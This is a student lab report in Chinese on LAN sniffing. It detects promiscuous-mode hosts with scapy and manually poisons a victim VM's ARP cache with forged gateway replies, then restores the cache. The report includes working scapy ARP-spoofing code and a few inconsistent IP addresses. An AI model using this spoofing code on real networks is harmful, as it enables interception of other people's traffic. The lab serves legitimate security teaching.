 # 第四章 网络监听

## 实验目的

1. 检测局域网中的异常终端

2. 手工单步“毒化”目标主机的ARP缓存

## 实验工具

+ VirtualBox
+ 网关：Gateway-Debian（Debian Buster）
+ 攻击者主机：Attacker-Kali（Kali-rolling 2022.3）
+ 靶机：Victim-Kali（Kali-rolling 2022.3）
+ wireshark
+ tcpdump

## 实验准备环节

### 一、实验网络环境

本次实验环境通过内部网络，将攻击者主机和靶机以及网关连接到同一局域网，它们的IP地址与MAC地址如下表所示：

| 虚拟机名称及身份 | 网卡/网络连接方式 | IP地址 | MAC地址 |
| ---- | ---- | ---- | ---- |
|Gateway-Debian（网关）|enp0s9/intnet1|172.16.111.1|08:00:27:9a:da:1b|
|Attacker-Kali（攻击者）|eth2/intnet1|172.16.111.129|08:00:27:76:04:8e|
|Victim-Kali（靶机）|eth0/intnet1|172.16.111.110|08:00:27:4a:13:b3|

### 二、安装scapy

这一步先检查攻击者主机kali是否已安装了scapy。直接在kali命令行`sudo scapy`发现出现了scapy界面，故不再重复安装。

若不是自带scapy，则通过python3来安装scapy。

```bash
# 先安装python3
sudo apt update && sudo apt install python3 python3-pip

# 通过pip3安装scapy
pip3 install scapy[complete]
```

## 实验过程

### 实验一：检测局域网中的异常终端

```bash
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show enp0
# 2: enp0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP mode DEFAULT group default qlen 1000
#     link/ether 08:00:27:4a:13:b3 brd ff:ff:ff:ff:ff:ff
```

![promisc](./image/promisc.png)

```bash
# 在攻击者主机上开启 scapy
scapy

# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.110")
```

![scapy-promiscing](./image/scapy-promiscing.jpg)

**可以看到攻击者发送的试探靶机混杂模式的数据包是没有收到回复。同时在靶机上运行的wireshark也没有收到任何流量，说明当靶机的混杂模式没有打开时，是不会接收来自网络中的目的地址为其他主机的数据。**

```bash
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set enp0 promisc on

# 此时会发现输出结果里多出来了 PROMISC 
ip link show enp0
# 2: enp0s3: <BROADCAST,MULTICAST,PROMISC,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP mode DEFAULT group default qlen 1000
#     link/ether 08:00:27:aa:ff:3e brd ff:ff:ff:ff:ff:ff
```

![promisc_is_opened](./image/promisc_is_opened.jpg)

```bash
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.111.110")
```

![scapy_open_promisc](./image/scapy_open_promisc.jpg)

![open-promisc-wireshark](./image/open-promisc-wireshark.png)

**而当目标主机打开混杂模式，它就会接收来自所有接口的数据并回复。这一点在攻击者主机和目标主机的wireshark上都有所体现。可以发现的是，攻击者主机是通过ARP请求来判断目标主机是否工作在混杂模式的**

```bash
# 最后，在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set enp0 promisc off
```

### 实验二：手工单步“毒化”目标主机的 ARP 缓存

**注：以下代码在攻击者主机上的 scapy 交互式终端完成**

```bash

# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()

# ###[ Ethernet ]###
#   dst= ff:ff:ff:ff:ff:ff
#   src= 08:00:27:76:04:8e
#   type= ARP
# ###[ ARP ]###
#      hwtype= 0x1
#      ptype= IPv4
#      hwlen= None
#      plen= None
#      op= who-has
#      hwsrc= 08:00:27:76:04:8e
#      psrc= 172.16.111.129
#      hwdst= 00:00:00:00:00:00
#      pdst= 172.16.111.1

# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2, iface="eth2")

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc

# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 192.168.0.102
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="171.16.111.110", hwdst="08:00:27:76:04:8e")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```

攻击者发送的数据包都可以通过tcpdump选择特定的接口来观察到。这里我使用的命令是`tcpdump -i eth2`

![tcpdump](./image/tcpdump.jpg)

同时，目标主机的wireshark上也捕捉到来自攻击者主机的数据

![wireshark](./image/wireshark.jpg)


此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

```bash
ip neigh
# 172.16.111.129 dev enp0 lladdr 08:00:27:76:04:8e STALE
# 172.16.111.1 dev enp0 lladdr 08:00:27:76:04:8e REACHABLE
```

![arp_is_changed](./image/arp_is_changed.jpg)

回到攻击者主机上的 scapy 交互式终端继续执行命令。

```bash
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:9a:da:1b", pdst="172.16.111.110", hwdst="08:00:27:4a:13:b3")
sendp(restorepkt1, count=100, inter=0.2)
## （可选）伪装受害者给网关发送 ARP 响应
restorepkt2 = ARP(op=2, pdst="192.168.0.1", hwdst="08:00:27:9a:da:1b", psrc="172.16.111.110", hwsrc="08:00:27:4a:13:b3")
sendp(restorepkt2, count=100, inter=0.2)
```

此时在受害者主机上准备“刷新”网关 ARP 记录。
```bash
## 在受害者主机上尝试 ping 网关
ping 192.168.0.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```

![ip-neigh](./image/ip-neigh.png)

##### 由于直接使用kali自带的scapy，没有尝试安装python3-pip，因此补充FAQ环节就没有尝试

## 实验中遇到的问题

1. 在实验二中，攻击者主机需要发送一个ARP广播请求来获取网关的MAC地址。在这一环节，由于我的攻击者主机配置的是多网卡，因此一直无法将数据包发送出去。后来，通过在畅课讨论区的学习，知道了可以通过去掉多余的网卡，营造单网卡环境来解决。另外，也可以在发送广播包时添加一个属性`iface="eth2"`，来使数据包是通过对应的网卡发送出去的。我选择的是第二种方案。

2. 在我尝试通过ssh远程登录攻击者主机来进行此次实验时，我发现通过scapy构造的ARP数据包无法发送，也无法接受。这让我一度怀疑，当攻击者主机通过ssh远程登录时，它与目标主机就不是处于同一局域网中。不过后来，老师打破了我这种错误的认知。不管是在哪里登录，只要将攻击者主机与目标主机连接在同一局域网的网卡没有关闭，它们就始终处于同一局域网内。这是我学到最重要的一点。而回到这个问题，我发现只是因为命令写错了，改了就好了。

### 参考链接

[网络安全课本第四章实验](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)

[混杂模式](https://baike.baidu.com/item/%E6%B7%B7%E6%9D%82%E6%A8%A1%E5%BC%8F/6463778)
